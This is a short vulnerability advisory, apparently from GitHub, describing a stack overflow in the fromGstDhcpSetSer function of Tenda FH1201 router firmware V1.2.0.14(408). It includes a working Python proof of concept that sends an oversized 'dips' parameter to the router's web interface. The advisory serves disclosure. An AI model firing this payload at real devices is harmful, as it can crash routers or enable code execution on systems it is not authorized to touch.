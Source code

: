 # Tenda FH1201 fromGstDhcpSetSer
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the dips parameter in the fromGstDhcpSetSer function.
### Vulnerability details
In function fromGstDhcpSetSer line 41, it reads in a user-provided parameter `dips`, and the variable is passed to the `strncpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/GstDhcpSetSer"

data = {
    "dips": "a" * 4000 + ".b",
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/2.png)
